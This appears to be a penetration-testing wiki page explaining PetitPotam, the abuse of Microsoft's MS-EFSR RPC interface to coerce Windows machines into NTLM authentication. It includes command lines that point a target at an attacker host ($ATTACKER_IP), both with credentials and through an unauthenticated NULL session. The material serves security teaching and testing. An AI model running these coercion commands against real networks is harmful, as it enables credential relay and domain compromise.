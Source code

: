 ```yaml
---
authors: KenjiEndo15, ShutdownRepo, sckdev
---
```


# MS-EFSR abuse (PetitPotam)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr)) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Lionel GILLES](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication. The coerced authentications are made over SMB. But MS-EFSR abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The following MS-EFSR's methods were detected vulnerable

* `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv` ([partially patched by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
* `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile`, `EfsRpcQueryRecoveryAgents`, `EfsRpcRemoveUsersFromFile`, `EfsRpcAddUsersToFile`, `EfsRpcFileKeyInfo`, `EfsRpcDuplicateEncryptionInfoFile`, `EfsRpcAddUsersToFileEx` (unpatched at the time of this article update, 29th December 2021)

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" (available in C and Python) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

An alternative Python implementation ([https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)) can be used to exploit other unpatched methods that the original implementation doesn't feature.

```bash
petitpotam.py -method AddUsersToFile $TARGET_IP '\\$ATTACKER_IP\share\foo'
```

> [!TIP]
> Nota bene: coerced NTLM authentications made over SMB restrict the possibilities of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.

> [!IMPORTANT]
> Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse (printbug)](ms-rprn.md), a **NULL session** could potentially be used to trigger that bug, unauthenticated, if allowed by the target. This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.
> 
> ```bash
> Petitpotam.py $ATTACKER_IP $TARGET_IP
> ```

> [!NOTE]
> For the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can be required, especially if the target is patched against MS-EFSR abuse (which doesn't completely mitigate the vulnerability). In both tools mentioned above, this is enabled by default only on topotam's one.

## Resources

[https://www.exploit-db.com/exploits/47115](https://www.exploit-db.com/exploits/47115)

[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

[https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)
 
[https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc](https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc)
